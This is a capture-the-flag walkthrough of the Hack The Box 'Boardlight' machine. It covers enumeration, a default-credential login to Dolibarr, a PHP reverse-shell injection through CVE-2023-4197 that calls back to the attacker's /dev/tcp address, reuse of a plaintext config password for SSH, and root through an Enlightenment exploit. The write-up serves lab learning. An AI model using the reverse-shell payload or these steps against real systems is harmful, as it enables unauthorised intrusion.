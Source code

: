 ```yaml
---
title: "Boardlight"
description: "An easy rated Linux box that emphasizes and develops enumeration skills, both externally and internally. Foothold is obtained through an authenticated RCE that exploits improper input sanitization. Further enumeration reveals a plaintext password that is reused by another user, allowing escalation of privileges. Finally, root access is obtained through a zero-day exploit found in the Enlightenment Window Manager."
tags:
  [
    "writeup",
    "htb",
    "enumeration",
    "dolibarr",
    "CVE-2023-4197",
    "RCE",
    "CVE-2022-37706",
  ]
slug: "boardlight"
date: 2024-06-10
isMachineActive: true
---
```


## Table of Contents

## Reconnaisance

We of course start out with our trusty `nmap` scan.

```bash
nmap -sC -sV -oA HTB/Machines/BoardLight/boardlight <ip_address>
```

![nmap scan](boardlight-nmap.webp)

This tells us that we have only port 22 and 80 open. Port 22 is usually a nothing burger, so I always check out port 80 first.

## Enumeration

### Port 80 - HTTP (Apache httpd)

**Service:** Apache httpd
**Version:** 2.4.41

I've already checked this version on another box and it wasn't vulnerable so I don't even bother here. Normally, you would want to at least check the version, but since I had already checked it within the last week or so I completed this machine, I didn't worry about it.

If you navigate to the IP address of your machine, you're greeted by the webpage for Boardlight.

![homepage](boardlight-80-homepage.webp)

There's a few things on the page, but most of the links go nowhere or redirect to the root `/`. However, there is a contact form.

![contact form](boardlight-80-contact-form.webp)

Good to have in our back pocket but I start running `gobuster` before doing anything else.

![gobuster](boardlight-80-gobuster.webp)

We get a few PHP pages back, so this tells us the site is running PHP. Good to know. Not much in the results than what we mostly already knew from just clicking around the site. So this doesn't really help.

If we analyze the Page Source, we see that there's a commented out path for `/portfolio.php`. If we navigate to it, we get a "File not found" error. Oh well. So we'll continue on with our enumeration.

![portfolio error](boardlight-80-portfolio.webp)

Taking a closer look at the entire webpage reveals in the footer a copyright notice for "Board.htb". This seems promising. If we add the IP address for the machine and route to `board.htb` in our `/etc/hosts` file, we can still access the webpage, but we can also do more enumeration with `gobuster` using the `vhost` option.

![gobuster vhost](boardlight-gobuster-vhost.webp)

That's more like it. We can see that there's one vhost on the machine at `crm.board.htb`.

```bash
gobuster vhost --domain board.htb --append-domain -u <ip_address> -w /usr/share/wordlists/seclists/Discovery/DNS/subdomain-top1million-11000.txt -t 100
```

Once we add this result to `/etc/hosts` for the same IP address, we can navigate to it and...

![dolibarr admin login](boardlight-dolibarr-login.webp)

Without even really thinking about it, I immediately tried, `admin:admin` and it worked.

![dolibarr admin page](boardlight-dolibarr-admin-panel.webp)

![doh](doh.gif)

Looking around, we get the following information.

**Service:** Dolibarr
**Version:** 17.0.0

We can see from the "My Dashboard" where we currently are that we still have some access denied and certain items in the left sidebar are greyed out. However, there is a Tools and Websites button in the top navbar. I like the Websites one so I head over there first, which leads us to exploitation.

## Exploitation

After some time Googling (because I was confident this was the attack vector), I stumbled on [this](https://starlabs.sg/advisories/23/23-4197/) page which outlines a CVE for Dolibarr when creating a website. Well, funny - that's what I wanted to do! The CVE description is as follows:

```
Improper input validation in Dolibarr ERP CRM <= v18.0.1 fails to strip certain PHP code from user-supplied input when creating a Website, allowing an attacker to inject and evaluate arbitrary PHP code.
```

We'll work on this in the next section, which is obtaining foothold.

### Foothold

The article from above leads me to think that we can inject some PHP shell into the header that will then be read and executed. And after quite a bit of messing around with creating a website, looking at what options are available to me, I finally manage to inject a PHP shell I got from [HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux#php) and have it be executed. As soon as I entered the shell and clicked Save on the page, I got my shell in my listener.

```php
<?php exec("/bin/bash -c 'bash -i >/dev/tcp/10.10.14.18/1337 0>&1'"); ?>
```

![www-data user](boardlight-www-data.webp)

We can run `wget` and `curl` on the target, so we can run a Python web server and grab `linpeas` from our machine and upload it to the target. We have to run `chmod u+x linpeas.sh` but then we can run it as normal.

```bash
chmod u+x linpeas.sh && ./linpeas.sh | tee linpeas.out
```

Running `linpeas`, we see the list of users and groups and it highlights `larissa`. Seems like this would be the next likely target.

![linpeas users](boardlight-linpeas-users.webp)

If we review the `linpeas` output, we see there are some config files. One such config file is buried deep in the home directory for `www-data`. The file is located at `~/html/crm.board.htb/htdocs/conf/conf.php`.

If we `cat` that out

![conf.php](boardlight-conf-php.webp)
^entire config not shown

Inside this file, we can find what looks like the Dolibarr config for the root, `crm.board.htb`. We see a user and a password, `dolibarrowner:serverfun2$2023`. So now, I want to take a step back and review what we have.

### Privilege Escalation

#### larissa

We are currently logged in as `www-data` on the target machine. We've found the Dolibarr configuration file that must have been configured by one of the two other users on this machine. Under normal circumstances, whoever set this up _hopefully_ wouldn't have reused this password. But in a CTF environment (really, even in a normal one too), it's good to at least test.

So if we take this password and try to SSH as larissa onto the box, it works!

![larissa ssh](boardlight-ssh-larissa.webp)

![user flag](boardlight-user.webp)

Bad larissa, bad. Don't reuse passwords! Especially ones stored in cleartext in config files on a server somewhere.

We can start by running `linpeas` again and if we review the output, it tells us there's an unknown SUID binary running. Initially, I wasn't too sure what this was and I kept looking around. I didn't even look into it at first. But after some digging and digging, I found nothing so looked into what this was.

![enlightenment](boardlight-linpeas-enlightenment.webp)

#### root

Enlightenment is a Linux Windows Manager and searching for "Enlightenment CVE", we get a [zero-day exploit POC](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/tree/main). All we need to do is download this file (I cloned the repo) on our machine, serve it up, download it on the target and run it.

![boardlight-root-privesc](boardlight-root-privesc.webp)

And that's a wrap.

![root](boardlight-root.webp)

## Conclusion

I _really_ enjoyed this machine. It really put your enumeration skills to the test and pays off really well in the end. The privilege escalation from `larissa` to `root` is a bit trivial but it's always cool to see exploits like this and how they just automagically take you from the user to root.
